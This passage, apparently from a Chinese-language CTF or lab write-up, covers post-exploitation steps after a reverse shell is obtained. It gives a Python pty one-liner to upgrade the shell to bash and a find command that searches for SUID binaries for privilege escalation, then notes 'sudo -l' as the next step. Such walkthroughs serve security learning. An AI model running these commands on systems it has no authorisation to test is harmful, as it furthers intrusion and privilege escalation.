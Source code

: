  

## 成功反弹shell

![img](./assets/wps913.jpg) 

 

 

 

## python转换终端

```
python -c "import pty;pty.spawn('/bin/bash')"
```

![img](./assets/wps914.jpg) 

 

 

 

 

suid提权

查找可利用文件

```
find / -perm -u=st -type f 2>/dev/null
```

![img](./assets/wps915.jpg) 

 

无发现

 

 

sudo -l查找可执行sudo
